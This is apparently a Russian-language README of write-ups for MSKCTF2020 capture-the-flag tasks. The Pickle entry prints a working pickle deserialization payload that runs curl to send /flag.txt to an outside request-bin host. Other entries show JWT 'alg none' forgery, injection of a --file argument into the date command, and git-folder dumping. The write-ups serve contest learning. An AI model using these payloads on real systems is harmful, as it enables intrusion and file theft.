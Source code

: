 # MSKCTF2020
<details>
    <summary><b>More-less [PPC]</b></summary>
    <br>
Подключаемся по `nc` к заданию и видим, что от нас требуют угадать число при помощи бинарного поиска, реализацию которого можно написать на python.
</details>
<details>
    <summary><b>Funny Farm [PPC]</b></summary>
    <br>
Прочитав условие задачи можно понять, что это знаменитая игра быки и коровы (она же Mastermind). Существует много способов решения, здесь использовано дерево исходов.
</details>
<details> 
    <summary><b>Simple [RE]</b></summary>
    <br>
Запустив несколько раз исполняемый файл, приходим к выводу, что зашифрованное значение символа не зависит от последующих. Значит, можно перебирать флаг посимвольно, сверяясь с содержимым файла `output.txt`.
</details>
<details> 
    <summary><b>Keycap [MISC]</b></summary>
    <br>
Изучив `dump.pcap` с помощью wireshark, понимаем, что перед нами находится usb capture. По запросу "ctf usb capture" находим скрипт https://ctf-wiki.github.io/ctf-wiki/misc/traffic/protocols/USB/ и запускаем: `python ./script.py dump.pcap`.
Вывод:


`[+] Found : keycap.tasks.2020.ctf.cs.msu.ru<RET>eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZXRGbGFnIjoiVHJ1ZSIsInNob3dGbGFnIjoiRmFsc2UifQ.<RET>`


Видим url и JWT токен. Пробуем отправить токен в форму на http://keycap.tasks.2020.ctf.cs.msu.ru и получаем ответ


>Flag is already set!


Разбираемся в чем дело. Пробуем раздекодить токен в base64 - `{"typ":"JWT","alg":"none"}.{"setFlag":"True","showFlag":"False"}`. Видим, что токен ничем не подписан и его можно изменять как хочется. Если установить `{"setFlag":"False","showFlag":"True"}` и сдать вновь полученный токен, сервис отдаст флаг.
</details>
<details> 
    <summary><b>Display I,II [MISC]</b></summary>
    <br>
Просмотрев гифку замечаем, что считыванию qr кода мешают пиксели, которые не меняются на протяжении всей гифки. Значит нужно собрать QR код учитывая их расположение.

Прежде всего, гифку надо разбить по кадрам на картинки в формате jpg (для работы с OpenCV). Это делается с помощью онлайн конвертеров. Теперь можно приступать к написанию скрипта.

Открываем любое изображение из папки с кадрами гифки. Оно будет испольховаться для создания маски изменяющихся пикселей. Затем берем выборку кадров гифки(я взял кадры с кодом, но по сути можно взять любые другие, важно количество). Проходимся по выборке и ищем пиксели, которые от кадра к кадру меняются и отмечаем их на изображении-маске зеленым цветом. После завершения  анализа выборки, получаем изображение-маску, где зеленым отмечены пиксели не подверженные помехам. Открываем изображение, в которое будет записываться итоговый код, определяем область куда он будет записываться и обводим эту область белой рамкой, тк отступ вокруг кода является обязательным условием для сканирования(как выяснилось, хватило верхнего и  правого отступа). Далее берем выборку кадров с проходом qr кода, находим координаты кода на первой картинке и на сколько пискелей код сдвигается с каждым кадром. Учитывая это, анализируем в каждом изображении область в которой находится код следующим образом: если пикслель кода совпадает с зеленым пикселем маски, то переносим этот пиксель на итоговое изображение, учитывая его цвет для создания черно белого кода. Проанализировав таким образом всю выборку прохода кода, получаем готовый читаемый код. Скрипт работает как для Display I, так и для Display II.
</details>
<details> 
    <summary><b>Pickle [WEB]</b></summary>
    <br>
Сразу после прочтения названия таска становится понятно, что он будет связан с "опасной" сериализацией в модуле pickle.

Немного осмотрев сервис, понимаем, что у нас есть возможность кастомизировать внешний вид текста на главной странице путем изменения параметров на /customize, которые в свою очередь сохраняются в куках. На этой же странице и происходит сериализация. Теперь нужно написать/нагуглить эксплойт. 

В интернете достаточно примеров эксплойтов, однако в процессе эксплуатации становится понятно, что некоторые модули(например, builtins) забанены, нужно искать другие пути. 

На странице документации пикла узнаем о возможности использования разных протоколов(0-5), отличающихся своей новизной. Попробуем наш эксплойт с 0ым протоколом.

```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl  http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```

Для этого пытаемся сделать eval(), c помощью которого импортируем os и вызваем system(). Следующая часть пейлоада - попытка отправить себе запрос на request-bin через curl. Копируем полученный base64 и заменяем значение куки custom_style.

Получаем запрос, значит эксплойт сработал. Осталось отправить себе флаг, однако для этого нужно понять, где он лежит. Пробуем несколько раз, получаем флаг. Для отправки файла себе я использовал опцию --data-binary.


#### Финальный эксплойт:
```
import pickle
import base64

class Exp(object):
    def __reduce__(self):
        return (eval, ("""__import__('os').system('curl --data-binary @"/flag.txt" http://pomo-mondreganto.me/request_bin/bin/3a7af4223a')""",),)


shellcode = pickle.dumps(Exp(), protocol=0)
print(base64.b64encode(shellcode))
```
#### В результате должен прийти такой запрос:

![Request example](https://github.com/WATyag/MSKCTF2020/blob/master/pickle/requestbin.jpg)
</details>
<details> 
    <summary><b>Beta release [WEB]</b></summary>
    <br>
Таск представляет из себя сервис, целью которого видимо является троллинг участников, так как при попытке получить абсолютно любой флаг мы получаем один и тот же ответ - "Такой флаг еще не подвезли :(". Что же, попробуем разобраться и найти настоящий флаг, утерев нос обидчикам!

Первичный анализ обширных возможностей таска не дал нам никаких интересных результатов, поэтому попробуем поискать "поглубже", используя dirsearch.

`python3 dirsearch.py -u http://beta-release.tasks.2020.ctf.cs.msu.ru/ -e php html js`

```
Target: http://beta-release.tasks.2020.ctf.cs.msu.ru/

[14:44:22] Starting:
[14:44:22] 400 -  182B  - /%2e%2e/google.com
[14:44:22] 200 -   12B  - /.git/COMMIT_EDITMSG
[14:44:22] 200 -  137B  - /.git/config
[14:44:22] 200 -   73B  - /.git/description
[14:44:22] 200 -  691B  - /.git/index
[14:44:22] 200 -   23B  - /.git/HEAD
[14:44:22] 200 -  250B  - /.git/info/exclude
[14:44:22] 200 -   10KB - /.git/logs/refs/heads/master
[14:44:22] 200 -   56KB - /.git/logs/HEAD
[14:44:22] 200 -   41B  - /.git/refs/heads/master
[14:44:22] 200 -   54B  - /.gitignore
[14:44:22] 200 -   54B  - /.gitignore/
[14:44:27] 200 -    2KB - /contacts
```

Проанализировав результаты понимаем, что разработчики "забыли" удалить гит репозиторий. Попробуем сдампить его, для этого воспользуемся тулзой git-dumper. Далее войдя в папку со скачанным репозиторием, посмотрим историю коммитов:


`git log`

Листая историю коммитов замечаем следующее:

```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования
```

Интересно, посмотрим сами изменения:

`git show  e9d0319984c8ea23b61ebd83da25507c973d19d1`


```
commit e9d0319984c8ea23b61ebd83da25507c973d19d1
Author: Ivan Gorsky <kek@hotmail.com>
Date:   Wed Mar 11 22:22:31 2020 +0300

    метод получения флага
    флаг для тестирования

diff --git a/main.py b/main.py
index cf4d6c8..1a127ae 100644
--- a/main.py
+++ b/main.py
@@ -1,22 +1,41 @@
 from flask import Flask
 from flask import render_template
+from flask import request

 app = Flask(__name__, template_folder="templates/", static_folder="./")

+flags = {
+    'alpha-version': 'MSKCTF{l34v1g_g1t_f0ld3r_1s_t00_b4d_id34_l0l}',
+    'keycap': '',
+    'happy_new_rtfm': '',
+    'Le Coq': '',
+    'This is the way': '',
+    'pickle': '',
+    'librecloud': '',
+    'corehard': '',
+    'crypto-300': '',
+    'Turtle': '',
+    'Funny Farm ': ''
+}
+
...
```
</details>
<details> 
    <summary><b>Happy new RTFM [WEB]</b></summary>
    <br>
На главной странице таска нас встречает обратный отсчет до нового года. Попробуем разобраться как он работает. 

Файл utils.js отправляет запрос /get_date.php, где через  переменную fmt указывает формат времени. get_date.php возвращает текущее время в заданном формате, после чего расчитывается оставшееся время до нового года и запускается таймер.

В самом таймере нет ничего интересного, а вот возможность передавать данные get_date.php выглядит перспективно.

Отправляя туда всякий шлак в попытках разобраться, что именно выполняет данный скрипт, получаем следующий ответ:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:41:25 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.0
Content-Length: 68

date: invalid option -- 'l'
Try 'date --help' for more information.
```

Тут же понимаем, что это вывод date Linux. Попробуем отправить --help:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:45:49 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 4704
Connection: close
X-Powered-By: PHP/7.4.0
Vary: Accept-Encoding

Usage: date [OPTION]... [+FORMAT]
  or:  date [-u|--utc|--universal] [MMDDhhmm[[CC]YY][.ss]]
Display the current time in the given FORMAT, or set the system date.

Mandatory arguments to long options are mandatory for short options too.
  -d, --date=STRING          display time described by STRING, not 'now'
      --debug                annotate the parsed date,
                              and warn about questionable usage to stderr
  -f, --file=DATEFILE        like --date; once for each line of DATEFILE
  -I[FMT], --iso-8601[=FMT]  output date/time in ISO 8601 format.
                               FMT='date' for date only (the default),
                               'hours', 'minutes', 'seconds', or 'ns'
```

Замечаем опицию -f , умеющую читать дату из файла. Это выглядит как то, что нам нужно. Отправим --file=/etc/flag.txt :

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Happy%20new%20RTFM/burp.jpg)
</details>
<details> 
    <summary><b>Incident [WEB]</b></summary>
    <br>
Исследуя таск замечаем, что подключеный к странице not-a-flag.js, который блокируется правилами csp. Также делается запрос на /csp-reports, где помимо прочего передается uri заблокированного файла. Ответ на этот запрос таков:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:12:58 GMT
Content-Type: text/plain
Content-Length: 96
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /not-a-flag.js with content 'This file does not contain a flag' is blocked by CSP
```

Стоит отметить, что при попытке перейти на /not-a-flag.js таск возвращает 404. Попробуем перехватить запрос через burp и заменить "not-a-flag.js" на что-то более интересное. 

Пробуем 'flag.txt', получаем:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 10 Apr 2020 12:22:43 GMT
Content-Type: text/plain
Content-Length: 58
Connection: close
Content-Security-Policy: script-src 'self' 'unsafe-inline' https://code.jquery.com/ https://cdnjs.cloudflare.com/ https://maxcdn.bootstrapcdn.com/; report-uri /csp-reports

DEBUG: the js /flag.txt with content '' is blocked by CSP
```

Быть может, flag.js? Ведь изначально к странице подключался javascript файл. Ответ:

![burp request](https://github.com/WATyag/MSKCTF2020/blob/master/Incident/burp.jpg)
</details>
<details> 
    <summary><b>Truth News [WEB/OSINT]</b></summary>
    <br>
    
*До хинта*

Тупим, тыкаемся во все, что попадется на глаза, толком не понимаем, что нужно делать.

*Хинт* 

`Hint: Мы знаем, что автор сайта любит снимать челленджи для соцсетей и плохо запоминает пароли.`

*После хинта*

 Понимаем очевиднейший(учитывая содержаение сайта) намек на тикток, ищем там пользователя с таким же ником(covidbuster), находим в его профиле видео, где совершенно случайно палится логин и пароль(login - covidbuster; password - CTF_p@ssw0rd):
 
 ![Tik-Tok](https://github.com/WATyag/MSKCTF2020/blob/master/Truth%20News/tikitikitok.jpg)
 
 Учитывая, что таск написан с использованием wordpress, нетрудно догадаться, что перед нами логин и пароль от админки. Ищем ее через dirsearch или гуглим дефолтный роут(его также можно найти на /?page_id=2) - "/wp-admin".

 Заходим в админку, замечаем установленный плагин WP File Manager. Меняем в его настройках "Public Root Path" на "/", находим флаг.
</details>
<details>
    <summary><b>You've got mail [FOREN]</b></summary>
    <br>
Нам дан файл без расширения. Открыв его в текстовом редакторе (notepad++ as example) видим перед собой, что-то по типу дампа почты.

Просмотрев дамп, находим base64 от архива:
```
 filename="attach.zip"

UEsDBBQACQAIAFZidVBv9f5ahwAAAHkAAAAIAAAAZmxhZy50eHQ45c3zHhuqVNivOf80djnC
tmkmwiSCTELSf0iFP6kEGDd3NlChMcSk0q/kN9oCTYH1NZSli0d2DS22xNVt/wLwLEwkwxdN
CXNajXmLRN5FxD3C2/Br6aCFvpylLx6y245zkB0cd8u9ICEVoiMhjITSIsAsnarMCK8IUwZX
MLNAehKGf0nkGkFQSwcIb/X+WocAAAB5AAAAUEsBAh8AFAAJAAgAVmJ1UG/1/lqHAAAAeQAA
AAgAJAAAAAAAAAAgAAAAAAAAAGZsYWcudHh0CgAgAAAAAAABABgAmQOVuGH/1QGE2Utw6v7V
AYTZS3Dq/tUBUEsFBgAAAAABAAEAWgAAAL0AAAAAAA==
--------------100AC5362A69E32B7F7DE353--
```

Достаем архив из base64 с помощью сайта https://base64.guru/converter/decode/file

В этом архиве видим один файл flag.txt, но он запаролен.

Однако в дампе было сообщение:

```
Content-Transfer-Encoding: 8bit

╨Э╨░╤Б╤В╤Г╨┐╨╕╨╗ ╤Б╨╡╨╖╨╛╨╜ ╨┐╨╡╤А╨╡╨▓╨╡╤А╨╜╤Г╨▓╤И╨╕╤Е╤Б╤П ╨┐╨╕╨╜╨│╨▓╨╕╨╜╨╛╨▓, ╨▓╤Л╨┤╨▓╨╕╨│╨░╤О╤Б╤М ╨╜╨░ ╨┐╨╛╨▒╨╡╤А╨╡╨╢╤М╨╡
╨┐╨╡╤А╨╡╨▓╨╛╤А╨░╤З╨╕╨▓╨░╤В╤М ╨╕╤Е ╨╛╨▒╤А╨░╤В╨╜╨╛.

╨С╨╡╤А╤Г ╨╝╨░╨╗╤Г╤О ╨╗╨╛╨┐╨░╤В╤Г ╨╕ ╨╗╤Л╨╢╨╕.

╨Я╤А╨╕╨╗╨░╨│╨░╤О ╤А╨╡╨╖╨╡╤А╨▓╨╜╤Г╤О ╨║╨╛╨┐╨╕╤О ╨╝╨╛╨╕╤Е ╨┤╨╛╨║╤Г╨╝╨╡╨╜╤В╨╛╨▓ ╨╜╨░ ╤Б╨╗╤Г╤З╨░╨╣, ╨╡╤Б╨╗╨╕ ╤Б╨╛ ╨╝╨╜╨╛╨╣ ╤З╤В╨╛-╤В╨╛
╤Б╨╗╤Г╤З╨╕╤В╤Б╤П. ╨Я╨░╤А╨╛╨╗╤М ╨║ ╨░╤А╤Е╨╕╨▓╤Г - ╨╕╤Б╤В╨╕╨╜╨░


╨Т╨░╤И╨░ ╨Э╨░╤В╨░╤И╨░.
```

С помощью сайта  http://www.online-decoder.com/ru переводим сообщение в utf-8:

```
Наступил сезон перевернувшихся пингвинов, выдвигаюсь на побережье
переворачивать их обратно.

Беру малую лопату и лыжи.

Прилагаю резервную копию моих документов на случай, если со мной что-то
случится. Пароль к архиву - истина


Ваша Наташа.
```

Вводим пароль `истина` и получаем файл с флагом.

#### Флаг: MSKCTF{the_truth_i$_0uT_tHeRe_haha}

</details>
<details>
    <summary><b>Dive into the cool story [FOREN/STEG]</b></summary>
    <br>
    
В таске `You've got mail` мы вместе с флагом получаем ссылку на google disk.

Качаем оттуда архив, в котором находится папка `Мои документы`.

В ней находится множество фотографий с пингвинами и несколько word файлов.

Протыкав все файлы, я заметил, что для файла `TWIMC.docx` предпросмотр не работает, хотя с другими .docx файлами все в порядке.

![Предпросмотр не работает](https://github.com/WATyag/MSKCTF2020/blob/master/Dive%20into%20the%20cool%20story/TWIMC.png)

Открыв это файл в текстовом редакторе, можно увидеть сигнатуру `PK`, а это значит, что перед нами архив.

Изменим расширение на `.zip` и посмотрим, что же внутри, а там нас ждал файл `flag.txt`.

#### Флаг: MSKCTF{psst_wanna_d1ve_int0_c001_st0ry}
    
</details>
<details>
    <summary><b>MSKCTF++ [RE]</b></summary>
    <br>
По описанию языка `MSKCTF++` стало понятно, что это brainfuck c измененными символами.

Сделаем замену на более привычные для этого языка символы.

Теперь перед нами скрипт на brainfuck, который на некотором моменте начинает очень долго работать. (использую https://copy.sh/brainfuck/)

Точка в языке brainfuck отвечает за вывод символа.

Разобьем код по "." и увидим, что медленная работа начинается с тех символов, когда большое количество раз повторяется подстрока `[>-`.

![Вrainfuck](https://github.com/WATyag/MSKCTF2020/blob/master/MSKCTF%2B%2B/Brainfuck.png)

`[>-` отвечает за создание цикла с 255 итерациями - это сильно тормозит работы, особенно если таких циклов несколько (нам явно хотели помешать выполнить этот код :D).

Так, давайте заменим `[>-` на `[>+` теперь у нас одна итерация в каждом цикле вместо 255, что должно сильно ускорить наш код.

Попробовав запустить его на https://copy.sh/brainfuck/, получаем молниеносный ответ.

```
Welcome! Here is your flag: MSKCTF{LolKekCheburek}
```

#### Флаг: MSKCTF{LolKekCheburek}
    
</details>
